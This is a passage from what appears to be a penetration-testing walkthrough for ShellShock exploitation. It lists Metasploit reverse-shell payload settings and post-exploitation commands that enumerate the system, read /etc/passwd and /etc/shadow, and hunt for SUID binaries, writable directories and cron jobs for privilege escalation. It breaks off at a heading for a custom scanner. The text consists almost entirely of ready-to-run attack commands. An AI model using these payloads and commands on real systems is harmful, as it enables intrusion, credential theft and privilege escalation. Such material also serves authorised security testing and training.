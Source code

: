 ### Alternative Metasploit Payloads

```bash
# Different payload options
set payload linux/x86/shell/reverse_tcp
set payload linux/x64/meterpreter/reverse_tcp
set payload cmd/unix/reverse_bash
```

## Post-Exploitation

### Initial Access Assessment

```bash
# Basic system information
whoami
id
uname -a
cat /etc/issue
cat /etc/os-release

# Network information
ifconfig
ip addr
netstat -tulpn

# User enumeration
cat /etc/passwd
cat /etc/shadow
```

### Privilege Escalation Reconnaissance

```bash
# SUID files
find / -perm -4000 -type f 2>/dev/null

# Writable directories
find / -perm -222 -type d 2>/dev/null

# Cron jobs
cat /etc/crontab
ls -la /etc/cron.*

# Kernel version
uname -r
```

## Automated Exploitation Scripts

### Custom ShellShock Scanner
